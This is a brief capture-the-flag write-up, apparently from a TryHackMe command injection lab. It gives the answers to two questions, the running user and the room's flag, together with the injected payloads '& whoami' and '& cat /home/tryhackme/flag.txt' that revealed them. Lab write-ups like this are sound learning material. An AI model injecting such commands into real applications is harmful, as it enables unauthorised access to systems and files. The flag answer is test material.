 ## Steps:
1.




What user is this application running as?
Ans: www-data  (& whoami)
What are the contents of the flag located in /home/tryhackme/flag.txt?
Ans: THM{COMMAND_INJECTION_COMPLETE} (& cat /home/tryhackme/flag.txt)
